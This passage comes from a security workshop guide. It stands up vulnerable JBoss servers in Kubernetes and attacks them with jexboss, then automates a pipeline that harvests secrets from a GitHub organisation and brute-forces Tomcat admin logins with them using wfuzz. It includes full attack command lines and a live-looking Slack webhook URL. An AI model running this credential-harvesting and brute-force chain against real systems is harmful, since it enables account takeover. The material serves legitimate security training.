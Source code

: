# Section-4

## Table of Contents
<!-- TOC -->

- [Section-4](#section-4)
    - [Table of Contents](#table-of-contents)
    - [Overview](#overview)
    - [Stand up vulnerable and non-vulnerable JBOSS servers](#stand-up-vulnerable-and-non-vulnerable-jboss-servers)
    - [Stand up Attack Host with exploit tools](#stand-up-attack-host-with-exploit-tools)
    - [Using Attack Host to exploit](#using-attack-host-to-exploit)
    - [Destroying the environment](#destroying-the-environment)
    - [Introducing Target, Attack Surface and Automated Testing Methodology](#introducing-target-attack-surface-and-automated-testing-methodology)

<!-- /TOC -->

## Overview
In this section, we will
1. Start a vulnerable and a non-vulnerable JBOSS server in our remote K8S cluster on GKE.
2. Start an attack host (with our exploit tools installed) in our remote K8S cluster on GKE.
3. Attack both the JBOSS servers from the attack host.
4. Destroy the JBOSS servers and the attack host.
5. Introduce the target, the attack surface exposed by that target and our automated testing methodology we will be using to attack that target.
6. Finally end the workshop by demo'ing the entire automation described above by issuing a single command from Slack using [Kubebot](https://github.com/anshumanbh/kubebot).


## Stand up vulnerable and non-vulnerable JBOSS servers
1. Finding a pre-built docker image
    * On your local machine type `docker search jboss`
    * We'll be using `tutum/jboss`
    * To grab the latest version type `docker pull tutum/jboss:latest`
    * To grab a vulnerable version for testing type `docker pull tutum/jboss:as6` The designation of `:as6` grabs JBOSS version 6 as referenced [here](https://hub.docker.com/r/tutum/jboss/)

2. Starting the servers
    * Let's start them up and expose the proper ports.  To do that, type the following commands:
        * `kubectl run jboss-latest --image=tutum/jboss:latest --port=8080`
        * `kubectl run vuln-jboss --image=tutum/jboss:as6 --port=8080`


## Stand up Attack Host with exploit tools
1. From the `attackhost` directory, type
    * `docker build -t attackhost .`
2. Start the attackhost deployment by typing - `kubectl apply -f attack-host.yaml`.


## Using Attack Host to exploit
1. Retrieve the name of the attackhost pod by running `kubectl get pods` and searching for the attackhost pod name.
2. SSH into the attackhost container by typing - `kubectl exec -it <pod-name> bash`.
3. Run `jexboss` by typing - `python jexboss.py -u <URL>` for both the vulnerable and non-vulnerable JBOSS servers.The URL can be found by navigating to the pods section, clicking on the pod and obtaining the ip address.  the URL will look something like this: `http://172.17.0.4:8080 `
4. Notice the different output and the ease of standing up sandboxed environments for security testing.
5. Exit out of the attack host by pressing `Ctrl+P+Q`.


## Destroying the environment
1. Delete all the deployments by typing - `kubectl delete deployments --all`
2. Delete all the pods by typing - `kubectl delete pods --all`


## Introducing Target, Attack Surface and Automated Testing Methodology
1. Domain:
    * Domain points to an Apache Tomcat server.
    * Domain has a github org with members.
2. We will scan all the repositories of this org and all the repositories of the org's members using the tool [git-all-secrets](https://github.com/anshumanbh/git-all-secrets). Results will be stored in a Google BigQuery table.
3. We will then run [wfuzz](https://github.com/xmendez/wfuzz) to do a focussed bruteforcing for Apache Tomcat endpoints on that domain. Results will be stored in a Google BigQuery table as well.
4. We will then use the secrets obtained from `git-all-secrets` and try to bruteforce the basic authentication mechanism of the Apache Tomcat endpoints obtained from `wfuzz`.
5. If there is a match, we will get back results in Slack via an incoming webhook.
6. Demo of doing all this auto-magically.

### Running locally outside the K8S cluster
1. [Running git-all-secrets and wfuzz locally and converting the results to store in BigQuery](data-converter/README.md)
2. [Running wfuzz basic authentication bruteforcer combining the data from both the tools](wfuzz-basicauth-bruteforcer/README.md)

### Running locally inside the K8S cluster (Minikube)
Running the tools repo-supervisor and wfuzz
1. Replace the directory path `/path/where/gac/is/stored/` in the command below to the path where GAC credentials file is stored locally on your workstation. Replace the `PROJECTID` as well. Replace the `gacfilename` with the name of the GAC credentials file.

`docker run -it -v /path/where/gac/is/stored/:/tmp/data/ abhartiya/utils_bqps:v1 -project <PROJECTID> -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`

The above command will mount the local directory where you stored your GAC credentials file to `/tmp/data` inside the container. Once, it does that, it will run the `abhartiya/utils_bqps:v1` container with the arguments - `-project defcon-workshop -gac /tmp/data/<gacfilename> -wfdataset wfuzzds -wftable wfuzz_tomcat_test -rsdataset reposupervisords -rstable reposupervisor_test`. Once the container runs, it will re-create the dataset and tables.

2. `kubectl get secrets` - Verify the secret `googlesecret` created earlier still exists.
3. `cd` back into the `section-4` directory.
4. Make sure the environment values in the `deployments/tools-bq-pod.yaml` deployment file are accurate.
5. Start the pods by typing `kubectl apply -f deployments/tools-bq-pod.yaml`. This will start the two tools and convert the output of those tools and upload it to Google BigQuery. You can verify this by looking at the BQ tables. Proceed to the next section only after this finishes.

Running the wfuzz basic authN bruteforcer
1. Make sure the environment values in the `deployments/tools-wfbrute-pod.yaml` deployment file are accurate.
2. Start the pod by typing `kubectl apply -f deployments/tools-wfbrute-pod.yaml`. This will download the data from the BQ tables of both the tools and for each wfuzz endpoint discovered, it will try to bruteforce the admin password with all the secrets obtained from git-all-secrets. There should be output in Slack if this is successful.

### Cleanup
1. `kubectl delete pods --all`
2. `kubectl delete secrets --all`
3. Delete the BQ datasets and tables
    * `bq rm reposupervisords.reposupervisor_test`
    * `bq rm wfuzzds.wfuzz_tomcat_test`
    * `bq rm -r -f reposupervisords`
    * `bq rm -r -f wfuzzds`
4. `minikube delete`
5. Don't forget to shutdown your GCP project if you don't plan to use it anymore.


### Demo - Sending a request from Kubebot for a target company
1. Initiate a request from Slack by typing a command like `/runautomation wfuzzbasicauthbrute|defcon.kubebot.io`.
2. API server receives the request.
3. API server drops a message in the queue to start `wfuzzbasicauthbrute` tool.
4. The message is picked up by a subscription worker from the queue.
5. Subscription worker starts 2 GoRoutines:
    * First GoRoutine starts [gitallsecrets](https://github.com/anshumanbh/git-all-secrets) with the options `-token <> -org kubebot -toolName repo-supervisor -output /tmp/results/results.json`. As soon as this is finished, the results are uploaded to BigQuery in the table `reposupervisor_test` under the dataset `reposupervisords` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * Second GoRoutine starts [wfuzz](https://github.com/anshumanbh/wfuzz) with the options `-w /data/SecLists/Discovery/Web_Content/tomcat.txt --hc 404,429,400 -o csv http://defcon.kubebot.io/FUZZ/ /tmp/results/results.csv`. As soon as this is finished, the results are uploaded to BigQuery in the table `wfuzz_tomcat_test` under the dataset `wfuzzds` by the help of a utility [converttobq](https://hub.docker.com/r/abhartiya/utils_converttobq/).
    * All the above jobs are performed inside Docker containers and they are destroyed once they are all completed.
6. After the tools finish running above, the subscription worker starts another GoRoutine:
    * This GoRoutine starts a utility [wfuzzbasicauthbrute](https://hub.docker.com/r/abhartiya/utils_wfuzzbasicauthbrute/) with the opttions `-target defcon.kubebot.io -slackHook https://hooks.slack.com/services/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`.
    * This utility basically fetches all the secrets obtained from the `reposupervisor_test` table and stores it in a file. It then fetches all the endpoints obtained from the table `wfuzz_tomcat_test`.
    * For each endpoint retrieved above, the utility does a bruteforce attack against the basic authentication mechanism with all the secrets retrieved above against the URL `http://TARGET/ENDPOINT`. This is done by using the tool [wfuzz](https://github.com/xmendez/wfuzz) with the options `./wfuzz.py -w <all-the-secrets-file> -o csv --basic "admin:FUZZ" --sc 200,403 http://TARGET/ENDPOINT`
    * Finally, for each response with a `200` or `403` status, indicating that the secret worked against that endpoint, the results are sent back to Slack via the incoming Slack webhook.
